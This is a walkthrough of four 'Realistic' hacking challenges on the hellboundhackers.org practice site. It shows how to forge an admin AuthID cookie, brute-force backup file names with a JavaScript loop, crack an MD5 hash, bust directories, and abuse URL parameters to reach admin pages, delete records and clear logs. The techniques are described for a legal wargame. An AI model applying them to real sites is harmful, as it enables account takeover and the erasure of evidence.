 ###Realistic 1
This challenge has two parts: 1. figuring out how users are authenticated and 2. Finding out the "credentials" for the admin user. 

Fire up something to monitor http requests (Wireshark, Live HTTP Headers, etc.) and monitor your transactions as you login. An element of the response should catch your eye:
```
Set-Cookie	AuthID=4601597
```

If we look at other requests, we can see this AuthID is used anywhere "john doe" is displayed on the page. Let's try to change it and see if we can guess the admin Auth ID:
```
#Typical admin userids
Set-Cookie	AuthID=0
Set-Cookie	AuthID=1

#Maybe admin user is right before or right after?
Set-Cookie	AuthID=4601596
Set-Cookie	AuthID=4601598
```

All these result in the cookie being deleted and us being unauthenticated, so we need to find the actual AuthID used. Log in as 
"johndoe" again and navigate to the "Home" page. Here a link that wasn't there before should pop up at you - "Logs." Navigate to the /logs/ subdirectory and you will see this file:
```
Authorized Users
--------------------------------

user: johndoe
pass: [encrypted]
status: network analysis
last sessionid: [not shown]
******/JohnDoe.txt

---------------------------------
---------------------------------
user: administrator
status: owner
last sessionid: [not shown]
--------------------------------
--------------------------------
```

So there is a text file that contains some information on johndoe. We can either brute-force the directories on the site, or take a guess that the ****** = images. Navigate to the /images/ subdirectory and you should see an administrator.txt with the following:
```
AuthID: 4601420
```

Simply switch your AuthID cookie to that value, and you will now be able to edit the price. 

###Realistic 2
We find that upon entering the /backups/ directory, we are blocked from getting a directory listing. Luckily the challenge text gives us a hint that massively reduces the amount of possibilities:
```
September of 2004. It looks like backup_2004-09-01_1000.sql
```

So our backup file is going to be in the format:
```
backup_2004-09-xx_yy00.sql
```

With only 30 days in September and 24 hours in a day, that leaves us with only 720 combinations to brute-force. We will execute a script against the page to check the urls for us (we have to be on the page due to same-origin policy existing on the XMLHttpRequest) object.
```
function checkURL( url ) {
	var request = new XMLHttpRequest();  
	request.open('GET', url, true);
	request.onreadystatechange = function(){
	    if (request.readyState == 4){
	        if (request.status != 404) {  
	            console.log( url );
	        }  
	    }
	};
	request.send();
}

for( var day = 1; day <= 30; day++ ) {
	for( var hour = 0; hour <= 24; hour++ ) {
		var url_to_check = 'https://www.hellboundhackers.org/challenges/real2/backups/backup_2004-09-' + ( day < 10 ? '0' + day : day ) + '_' + ( hour < 10 ? '0' + hour : hour ) + '00.sql';

		checkURL( url_to_check );
	}
}
```

Executing this script will result in a valid url being outputed; simply download that sql file and open it up to reveal a username : md5. Decrypt the md5 hash to get your admin password.

###Realistic 3
Like most challenges, when we don't know what to do, submitting empty forms tends to get us some information. Go to the order screen and submit an empty request. The error page will reveal an interesting line:
```
error 162: we were unable to write into **************/mem/ file trans***.***
```

Go to each of the subsections and try the /mem/ subdirectory until you stumble on a blank page that doesn't 404. From there it is as easy as running a directory buster on the string /mem/trans{dir} with all file extensions. Eventually you will stumble on a text file that has binary. Simply convert this to ascii for your answer.

###Realistic 4
Not much to go on, so try to submit a fake email address. You'll notice you'll be redirected to an error before you can view the page, so spam esc to stop the redirect. Take a look at the page and you will notice the form submits to /main/mail.php.

With not much else to go on, navigate to /main/, where you will see the member's login page. Login as the given user, and navigate around. You should notice that both news and downloads use:
```
all.php?id= 
```

with different parameters. Keep that in mind for when we want to find different pages.

Go back to main and look at the source code to find a comment that links the admin's login page. SQL injection reveals nothing interesting, so instead, let's try to use the admin path and append pages from the member's access:
```
https://www.hellboundhackers.org/challenges/real4/main/Tlogin/thized_admin/all.php?id=news
``` 

Excellent, we now have admin access without logging in. Next, let's try to abuse all.php to get the records page:
```
https://www.hellboundhackers.org/challenges/real4/main/Tlogin/thized_admin/all.php?id=records
```

To remove records, we will abuse the fact that the site seems to be executing commands straight from the POST parameters:
```
https://www.hellboundhackers.org/challenges/real4/main/Tlogin/thized_admin/all.php?remove=record&&id=Ghost
```

With that, we get a password that we can use to clear logs. Simply abuse the all script again to get the logs page:
```
https://www.hellboundhackers.org/challenges/real4/main/Tlogin/thized_admin/all.php?id=logs
```
